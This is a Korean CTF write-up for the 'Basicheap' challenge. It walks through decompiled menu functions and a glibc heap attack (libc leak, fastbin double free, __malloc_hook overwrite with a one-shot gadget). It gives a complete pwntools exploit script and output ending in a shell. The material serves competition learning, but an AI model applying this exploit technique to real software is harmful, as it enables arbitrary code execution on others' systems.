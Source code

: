 ```yaml
---
title: TenDollar CTF - Basicheap
date: 2018-11-30 00:06:52
---
```


```c
unsigned __int64 sub_980()
{
  int v0; // ebx
  int v2; // [rsp+4h] [rbp-1Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-18h]

  v3 = __readfsqword(0x28u);
  puts("Input Length");
  _isoc99_scanf("%d", &v2);
  v0 = dword_20202C;
  qword_202030[v0] = malloc(v2);
  puts("Input Memo!");
  read(0, qword_202030[dword_20202C], v2);
  ++dword_20202C;
  puts("Create Note Done.\n");
  return __readfsqword(0x28u) ^ v3;
}
```

1번 메뉴에서 사이즈를 지정하여 malloc을 해줌

```c
unsigned __int64 sub_A59()
{
  int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  v1 = 0;
  puts("Choose Note");
  _isoc99_scanf("%d", &v1);
  puts((const char *)qword_202030[v1]);
  return __readfsqword(0x28u) ^ v2;
}
```

2번 메뉴인데 아이다 최적화 때문에 printf가 puts로 나온듯 이 메뉴로 릭이 가능하다.

```c
unsigned __int64 sub_AD2()
{
  int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  v1 = 0;
  puts("Choose Note");
  _isoc99_scanf("%d", &v1);
  free(qword_202030[v1]);
  puts("Delete Note Done.\n");
  return __readfsqword(0x28u) ^ v2;
}
```

3번 메뉴 free가 자유롭다. 

공격 시나리오는 fastbin fastbin smallbin fastbin -> smallbin free (libc leak) -> fastbin double free -> malloc_hook overwrite 



일단 처음부터 0x60으로 만들어서 나중에 귀찮지 않게 처음부터 fake chunk size에 맞춰주고 smallbin, top chunk와 병합을 하지 않을 fastbin을 하나 더 만들고 smallbin free 후 libc leak을 한다.

fake chunk를 할당할 주소는 malloc_hook-35 지점인데 

```assembly
gdb-peda$ x/10gx 0x7f189914faed + 35
0x7f189914fb10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
```

저 malloc_hook 지점에 overwrite를 하기 위해선 일단 malloc_hook - 0x10 지점에 chunk를 할당해야 하는데..

```assembly
gdb-peda$ x/10gx 0x7f189914faed + 25
0x7f189914fb06 <__memalign_hook+6>:	0x7f1898e10a000000	0x0000000000000000
```

이 지점에서 보면 size 필드가 0이므로 size error가 나기 때문에 할당을 할 수가 없다. 결국 넣을만한 size 필드를 찾아서 넣어줘야 한다.

```assembly
gdb-peda$ x/10gx 0x7f189914faed
0x7f189914faed <_IO_wide_data_0+301>:	0x189914e260000000	0x000000000000007f
```

size 필드가 7f이기 때문에 처음부터 0x60 size의 chunk를 할당해 준 것!

```assembly
gdb-peda$ x/2gx 0x7f6373edaaed + 35
0x7f6373edab10 <__malloc_hook>:	0x00007f6373c07147	0x000000000000000a
gdb-peda$ x/gx 0x00007f6373c07147
0x7f6373c07147 <exec_comm+2263>
```

malloc_hook에 원샷 가젯을 넣고 다시 malloc을 하면 쉘이 실행된다.

```python
from pwn import * 

t = process("./tf")

def c(a,b):
    t.sendlineafter("Quit","1")
    t.sendlineafter("Input Length",str(a))
    t.sendlineafter("Input Memo!",str(b))

def s(a):
    t.sendlineafter("Quit","2")
    t.sendlineafter("Note",str(a))

def d(a):
    t.sendlineafter("Quit","3")
    t.sendlineafter("Note",str(a))

c(0x60,"a")
c(0x60,"")
c(0x100,"b")
c(0x60,"c")

d(2)
s(2)

t.recvline()
ma = u64(t.recv(6).ljust(8,'\x00'))
#print hex(ma)

libc = ma - 0x3c4b78
log.success("libc : " + hex(libc))
malloc_hook = libc + 0x00000000003C4B10
log.success("malloc_hook : " + hex(malloc_hook))
one = libc + 0x00000000000F1147
log.success("oneshot : " + hex(one))
c(0x100,"b")

d(0)
d(1)
d(0)

c(0x60,p64(malloc_hook-35))
c(0x60,"a")
c(0x60,"b")
pause()
c(0x60,"a"*3 + p64(one)*3)
pause()
t.sendline("1")
t.sendline("1")

t.interactive()
->
bskim@bsbuntu:~/pwnable/heap$ python tf.py
[+] Starting local process './tf': pid 14771
[+] libc : 0x7f32af032000
[+] malloc_hook : 0x7f32af3f6b10
[+] oneshot : 0x7f32af123147
[*] Paused (press any to continue)
[*] Paused (press any to continue)
[*] Switching to interactive mode

Create Note Done.

Simple Note!!
1. Create Note
2. Show your Memo
3. Delete Note
4. Quit
Input Length
$ id
uid=1000(bskim)
```

최종 익스코드 
